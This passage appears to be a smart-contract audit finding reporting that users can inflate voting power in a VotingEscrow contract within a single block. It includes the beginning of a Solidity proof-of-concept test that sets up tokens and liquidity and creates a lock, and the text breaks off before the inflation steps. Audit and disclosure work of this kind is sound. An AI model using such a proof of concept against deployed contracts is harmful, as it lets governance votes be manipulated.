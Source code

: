 ## Impact
Users are able to inflate their voting power within a single block.

## Code Snippet

### POC: Add the following test file to the test suite

```Solidity
// 1:1 with Hardhat test
pragma solidity 0.8.13;

import './BaseTest.sol';

contract VotingEscrowTest is BaseTest {
    uint internal constant MAXTIME = 52 * 7 * 86400;
    int128 internal constant iMAXTIME = 52 * 7 * 86400;
    uint internal constant MULTIPLIER = 1 ether;

    VotingEscrow escrow;

    function setUp() public {
        deployOwners();
        deployCoins();
        mintStables();
        uint256[] memory amounts = new uint256[](3);
        amounts[0] = 1e25;
        amounts[1] = 1e25;
        amounts[2] = 1e25;
        mintFlow(owners, amounts);

        VeArtProxy artProxy = new VeArtProxy();

        deployPairFactoryAndRouter();
        deployMainPairWithOwner(address(owner));

        escrow = new VotingEscrow(address(FLOW), address(flowDaiPair),address(artProxy), owners[0]);
    }

    function getMaxVotingPower(uint256 _amount, uint256 _end) public view returns (uint256) {
        uint256 slope = _amount / MAXTIME;

        uint256 bias = (slope * (_end - block.timestamp));

        return bias;
    }

    function testVoteInflationByTransferTokenPOC() public { // @audit Valid
        address user1 = address(owner2);
        address user2 = address(owner3);

        vm.startPrank(user1);

        FLOW.approve(address(router), TOKEN_1);
        DAI.approve(address(router), TOKEN_1);
        router.addLiquidity(address(FLOW), address(DAI), false, TOKEN_1, TOKEN_1, 0, 0, user1, block.timestamp);

        flowDaiPair.approve(address(escrow), TOKEN_1);

        uint256 tokenId = escrow.create_lock(TOKEN_1, FIFTY_TWO_WEEKS);
        
```